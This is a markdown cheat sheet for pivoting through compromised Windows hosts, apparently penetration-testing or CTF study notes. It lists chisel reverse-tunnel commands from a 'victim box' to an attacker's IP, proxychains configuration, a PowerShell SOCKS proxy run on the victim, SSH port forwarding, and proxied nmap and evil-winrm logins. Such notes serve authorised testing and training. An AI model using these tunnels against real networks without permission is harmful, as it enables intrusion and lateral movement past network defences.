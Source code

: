 # Windows pivoting

### Added nmap portable for linux systems to port scan.

### Chisel for Windows
https://github.com/jpillora/chisel/releases

```
Understanding => R:1234(Remote Port):127.0.0.1(localhost):1234(Local Port)


Victims Box: .\chisel.exe client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: .\chisel.exe server -p 8011 --reverse
```

### ippsec demonstration Proxychains
https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=5446  

```
Configuring Proxychains:

vim /etc/proxychains.conf

comment proxy_dns
uncomment quiet_mode
remove any entries within proxy list
add socks5 127.0.0.1 1080

Setting up chisel:

attackers box: 
./chisel server -p 8000 --reverse

victims box:
.\chisel.exe client <attackersIP>:8000 R:8001:127.0.0.1:1337

victims box:
.\chisel.exe server -p 1337 --socks5

attackers box:
./chisel client 127.0.0.1:8001 socks

Testing proxychains command:

proxychains nmap -sT <TargetIP> -p445 -Pn
proxychains evil-winrm.rb -i <IP> -u user -p pass
```

### Standard Proxychains:  

https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29  

```
./chisel server -p 8080 --reverse

.\chisel.exe client <IP>:8080 R:socks

Edit Proxychains config file:
/etc/proxychains.conf

Add the following:
socks5 127.0.0.1 1080
```

### Using powershell to SOCKS Proxy (Thanks to @sinfulz for recommending this)
```
From Kali: Edit /etc/proxychains.conf, add "socks5 9080" at the bottom.
From Victim Box: Import-Module .\Invoke-SocksProxy.ps1
From Victim Box: Invoke-SocksProxy -bindPort 9080
From Kali: proxychains nmap -sT <target_IP> -Pn
```

### Port Forwarding using SSH
```
ssh -L <PORT>:127.0.0.1:<PORT> <USERNAME>@<REMOTE_ADDR>
ssh -L <PORT>:127.0.0.1:<PORT> <USERNAME>@<REMOTE_ADDR> -p 22
```
